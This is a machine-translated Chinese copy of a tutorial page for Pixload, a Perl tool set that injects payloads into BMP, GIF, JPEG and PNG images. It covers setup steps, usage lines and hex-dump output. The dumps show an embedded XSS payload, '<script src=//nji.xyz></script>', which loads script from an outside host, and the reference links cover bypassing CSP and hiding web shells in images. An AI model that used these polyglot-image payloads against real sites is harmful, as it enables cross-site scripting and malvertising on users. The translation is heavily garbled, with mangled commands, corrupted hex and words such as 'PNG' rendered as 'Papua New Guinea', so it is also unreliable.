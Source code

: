 # Pixload:图像有效载荷创建/注入工具

> 原文：<https://kalilinuxtutorials.com/pixload-image-payload-creating-injecting/>

[![Pixload : Image Payload Creating/Injecting Tools](img//3447efbb0b593f717bc2067eab95c824.png "Pixload : Image Payload Creating/Injecting Tools")](https://1.bp.blogspot.com/-3Cq21IP9DHo/XYZOQko3DWI/AAAAAAAACk0/4a2ghrOjX4Ew7aMNcr5ncX6KhK8ecf1WgCLcBGAsYHQ/s1600/Pixload.png)

Pixload 是一套用于创建/注入有效载荷到图像中的工具。有助于更好地理解 pixload 及其使用案例的有用参考资料:

*   [使用多语言 JPEGs 绕过 CSP](https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs)
*   [黑客组织利用多语言图像隐藏恶意攻击](https://devcondetect.com/blog/2019/2/24/hacking-group-using-polyglot-images-to-hide-malvertsing-attacks)
*   [在 PNG IDAT 块中编码 Web 外壳](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
*   [通过 PNGs 在脸书的 XSS&靠不住的内容类型](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)
*   [重访巴布亚新几内亚 IDAT 语块中的 XSS 有效载荷](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

如果您希望以这样一种方式对有效负载进行编码，使得生成的二进制 blob 既是有效的 x86 外壳代码又是有效的图像文件，我建议您查看这里和这里。

**也可阅读-[priv Exchange:通过滥用 Exchange](https://kalilinuxtutorials.com/privexchange/)** 将您的权限换取域管理员权限

**设置**

下列 Perl 模块是必需的:

*   绿色发展
*   Image::ExifTool
*   String::CRC32

在`**Debian-based**`系统上安装这些软件包:

sudo 安装 libgd-perl libimage-EXIF tool-perl libstring-crc32-perl

关于`OSX`请参考[这个变通办法](https://github.com/chinarulezzz/pixload/issues/3) (thnx 2 @iosdec)。

**工具**

**bmp.pl**

BMP 有效载荷生成器/注入器。

##### **用法**

。/BMP . pl[-payload ' STRING ']-output payload . BMP

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

##### 举例

。/BMP . pl-output payload . BMP
[>| BMP payload creator/injector |<]
https://github.com/chinarulezzz/pixload

[>生成输出文件
【✔】文件保存到:payload.bmp

[ > ]将 payload 注入 payload . BMP
【✔】payload 注入成功

payload.bmp: PC 位图，OS/2 1.x 格式，1 x 1

0../|
00000020 3d 31 3b 3c 73 63 72 69 70 74 20 73 72 63 3d 2f | = 1；

**gif.pl**

GIF 有效载荷创建者/注入者。

**用法**

。/gif . pl[-payload ' STRING ']-output payload . gif

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将生成新的。

##### **例子**

。/gif . pl-output payload . gif
[>| gif payload creator/injector |<]

https://github.com/chinarulezzz/pixload

[>]生成输出文件
【✔】文件保存到:payload.gif

[ > ]将有效载荷注入 payload . gif
【✔】有效载荷注入成功

payload.gif: GIF 图像数据，版本 87a，10799 x 32
|
000000010 00 00 00 2c 00 00 00 00 20 00 20 00 00 02 1e 84 |…，…。…..|
000000020 8f a9 CB ed 0f a3 9c B4 da 8b B3 de BC FB 0f 86 |………………|
000000030 E2 48 96 E6 89 a6 ea ca B6 ee 0b 9b 05 00 3b 2a |。H………;* |
00000040 2f 3d 31 3b 3c 73 63 72 69 70 74 20 73 72 63 3d |/= 1；

**jpg.pl**

JPG 有效载荷生成器/注入器。

**用法**

。/jpg . pl[-payload ' STRING ']-输出 payload.jpg

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

**例子**

。/jpg . pl-output payload.jpg
[>| JPEG 有效载荷创建者/注入者|<]
https://github.com/chinarulezzz/pixload

[>]生成输出文件
【✔】文件保存到:payload.jpg

[>]将有效载荷注入评论标签
【✔】有效载荷注入成功

有效载荷. jpg: JPEG 图像数据，JFIF 标准 1.01，分辨率(DPI)，密度 96×96，段长 16..`|`
000000010 00 60 00 00 ff Fe 00 21 3c 73 63 72 69 70 74 20 | .`…..！<script |
000000020 73 72 63 3d 2f 6e 6a 69 2e 78 79 7a 3e 3c 2f | src =//nji . XYZ></|
00000030 73 63 72 69 70 74 3e ff db 00 43 00 08 06 06 07 | script>…C…..|
000000040 06 05 08 07 07 07 09 09 08 0a 0c 14 0d 0c 0b 0b |…………|
000000050 0c 19 12 13 0f 14 1d 1a 1f 1e 1d 1a 1c 1c 20 24 |………..$ |
000000060 2e 27 20 22 2c 23 1c 1c 28 37 29 2c 30 31 34 34 |。' ",#..(7)，0144 |
000000070 34 1f 27 39 3d 38 32 3c 2e 33 34 32 ff db 00 43 | 4。9 = 82<. 342…C |
000000080 01 09 09 09 0c 0c 0c 18 0d 0d 18 32 21 1c 21 32 |……..2!。！2 |
00000090 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32

**png.pl**

PNG 有效载荷创建器/注入器。

**用法**

。/png . pl[-payload ' STRING ']-输出 payload.png

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

##### 举例

。/png . pl-output payload.png

[>| png 有效载荷创建者/注入者|<]

https://github.com/chinarulezzz/pixload[>]生成输出文件

【✔】文件保存到:payload.png
[>]注入有效载荷到 payload.png
[+]chunk size:13
[+]chunk type:ihdr
[+]CRC:fc 18 EDA 3
[+]chunk size:9
[+ CRC:c8 a 288 Fe
[+]Chunk size:0
[+]chunk type:iend

[>]将有效载荷注入新的 chunk:'朋克'
【✔】有效载荷注入成功

payload.png: PNG 图像数据，32 x 32，8 位/彩色 RGB，非隔行扫描

00000000 89 50 47 00a 1a 00 巴布亚新几内亚……..IHDR |
000000010 00 00 00 20 00 00 00 20 08 02 00 00 00 fc 18 ed |……..|
000000020 a3 00 00 00 09 70 48 59 73 00 00 0e C4 00 00 00 0e |…..物理……|
000000030 C4 01 95 2b 0e 1b 00 00 00 19 49 44 41 54 48 89 | …+……IDATH。|
00000040 ed C1 31 01 00 00 00 C2 A0 F5 4f ed 61 0d A0 00 |..1……. o . a…|
000000050 00 00 6e 0c 20 00 01 c8 a2 88 Fe 00 00 00 00 00 49 |..……I |
00000060 45 4e 44 AE 42 60 82 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | END。B`……。|
000000070 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |……。|
*
000000 c0 00 1f 70 55 6e 6b 3c 73 63 72 69 70 74 20 73 72 |..朋克<剧本 Sr |
000000 d0 63 3d 2f 2f 6e 6a 69 2e 78 79 7a 3e 3c 2f 73 63 | c =//nji . XYZ>/sc |
000000 E0 72 69 70 74 3e 9d 11 54 97 00 49 45 4e 44 | script>..T..IEND|
000000ee

**免责声明**

作者对这个工具的不良使用不承担任何责任，记住未经事先同意攻击目标是违法的，要受到法律的制裁。

[**Download**](https://github.com/chinarulezzz/pixload#jpgpl)